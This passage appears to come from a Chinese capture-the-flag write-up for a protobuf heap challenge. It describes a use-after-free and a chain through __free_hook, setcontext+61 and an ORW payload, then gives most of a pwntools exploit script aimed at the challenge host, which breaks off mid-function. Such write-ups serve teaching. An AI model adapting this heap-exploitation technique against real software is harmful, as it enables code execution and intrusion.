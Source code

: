    主要的漏洞再delete中，free后清空时，清错了，所以存在UAF漏洞：

   ![image-20240915161753262](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409151617332.png)

### 思路：

1. 利用unsorted bin泄漏libc地址、和堆地址 --> 修改next指针，申请到free_hook，覆盖指向gadget --> 在堆上伪造三个东西：ORW、setcontext + 61 栈迁移时寄存器传参、触发free_hook时gadget 完成rdi 到 rdx 的转换 --> free前面伪造的堆 触发攻击

### 利用：

1. 完整EXP，这里就不细致调试了，这题主要了解如何根据ida逆向出.proto源文件：

   ```python
   from pwn import *
   import bkb_pb2
   context(os='linux', arch='amd64', log_level='debug')
   def debug():
       gdb.attach(p)
   
   choose = 1
   
   if choose == 1 :    # 远程
       success("远程")
       p = remote("node4.anna.nssctf.cn",28888)
       libc = ELF('./lib/libc_2.31-0ubuntu9.9_amd64.so')
       # elf = ELF("./pwn")
   else :              # 本地
       success("本地")
       p = process("./pwn")
       libc = ELF('/home/kali/Desktop/glibc-all-in-one/libs/2.31-0ubuntu9_amd64/libc-2.31.so')
       # ld = ELF("ld.so") 
       # elf = ELF("./pwn")
   
   
   def add(index,size,content):
       msg = bkb_pb2.devicemsg()       # 生成对象
       msg.actionid = 1
       msg.msgidx = index
       msg.msgsize = size
       msg.msgcontent = content
       p.sendafter(b'You can try to have friendly communication with me now: ', msg.SerializeToString())
   
   def edit(index,content):
       msg = bkb_pb2.devicemsg()
       msg.actionid = 2
       msg.msgidx = index
       msg.msgsize = len(content)
       msg.msgcontent = content
       p.sendafter(b'You can try to have friendly communication with me now: ', msg.SerializeToString())
   
   def show(index):
       msg = bkb_pb2.devicemsg()
       msg.actionid = 3
       msg.msgidx = index
       msg.msgsize = 7
       msg.msgcontent = b'useless'
       p.sendafter(b'You can try to have friendly communication with me now: ', msg.SerializeToString())
   
   def free(index):
       msg = bkb_pb2.devicemsg()
   ```